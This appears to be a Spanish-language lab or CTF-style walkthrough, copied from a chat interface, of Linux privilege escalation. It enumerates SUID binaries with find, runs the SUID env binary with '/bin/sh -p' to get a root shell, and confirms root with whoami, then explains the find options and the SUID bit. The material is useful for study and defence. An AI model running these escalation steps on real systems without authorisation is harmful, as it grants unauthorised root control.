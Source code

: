 🔹 Buscando binarios con SUID activado
bash
Mostrar siempre los detalles

Copiar
find / -perm -4000 -user root 2>/dev/null
✔ Resultados:

swift
Mostrar siempre los detalles

Copiar
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/env  <-- Binario vulnerable
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
🔹 Explotando env para obtener root
env con SUID nos permite ejecutar /bin/sh como root sin restricciones:

bash
Mostrar siempre los detalles

Copiar
/usr/bin/env /bin/sh -p
✔ Confirmado: Acceso root conseguido

bash
Mostrar siempre los detalles

Copiar
whoami
root
### 🔍 Explicación del comando:
bash
Copiar
Editar
find / -perm -4000 -user root 2>/dev/null
Este comando busca archivos en todo el sistema (/) que cumplen ciertas condiciones específicas:

Opción	Explicación
find /	Busca en todo el sistema (desde la raíz /).
-perm -4000	Busca archivos con permiso SUID (bit 4000 activado).
-user root	Filtra para mostrar solo archivos propiedad de root.
2>/dev/null	Oculta los errores de "Permiso denegado" redirigiéndolos a /dev/null.
🚀 ¿Qué significa "SUID" y por qué es importante?
El bit SUID (Set User ID) significa que, cuando un usuario ejecuta el archivo, este se ejecuta con los permisos de su propietario (root en este caso).
Si un binario vulnerable tiene SUID activado, puede permitir escalar privilegios a root.

